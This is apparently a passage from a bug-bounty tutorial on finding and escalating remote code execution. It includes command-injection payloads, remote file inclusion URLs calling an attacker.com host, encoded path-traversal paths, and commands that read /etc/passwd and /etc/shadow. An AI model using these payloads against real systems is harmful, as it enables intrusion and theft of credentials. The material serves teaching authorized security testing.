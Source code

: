 ```php
| sleep 10;
& sleep 10;
` sleep 10;`
$(sleep 10)
```

for remote file inclusion, you could try several forms of a URL that points to your malicious file hosted offsite:

```python
http://example.com/?page=http://attacker.com/malicious.php
http://example.com/?page=http:attacker.com/malicious.php
```

And for local file inclusion vulnerabilities, try different URLs pointing to local files that you control:

```python
http://example.com/?page=../uploads/malicious.php
http://example.com/?page=..%2fuploads%2fmalicious.php
```

## Step 4: Confirm the Vulnerability

Finally, confirm the vulnerability by executing harmless commands like `whoami`, `ls`, and `sleep 5`.

---

# Escalating the Attack

For classic RCEs, create a proof of concept that executes a harmless command like whoami or ls. You can also prove you’ve found an RCE by reading a common system file such as /etc/passwd. 

You can use the cat command to read a system file: `cat /etc/passwd`

Finally, you can create a file with a distinct filename on the system, such as `rce_by_YOUR_NAME.txt` so it’s clear that this file is a part of your POC.
You can use the touch command to create a file with the specified name in the current directory: `touch rce_by_YOUR_NAME.txt`

For blind RCEs, create a POC that executes the sleep command. You can also create a **reverse shell on the target machine** that connects back to
your system for a more impactful POC. However, this is often against program rules, so be sure to check with the program beforehand.

---

# Bypassing RCE Protection

For Unix system commands, you can insert **quotes** and **double quotes** without changing the command’s behavior. You can also use wildcards
to substitute for arbitrary characters if the system is filtering out certain strings. Finally, any empty command substitution results can be inserted
into the string without changing the results. For example, the following commands will all print the contents of `/etc/shadow`:
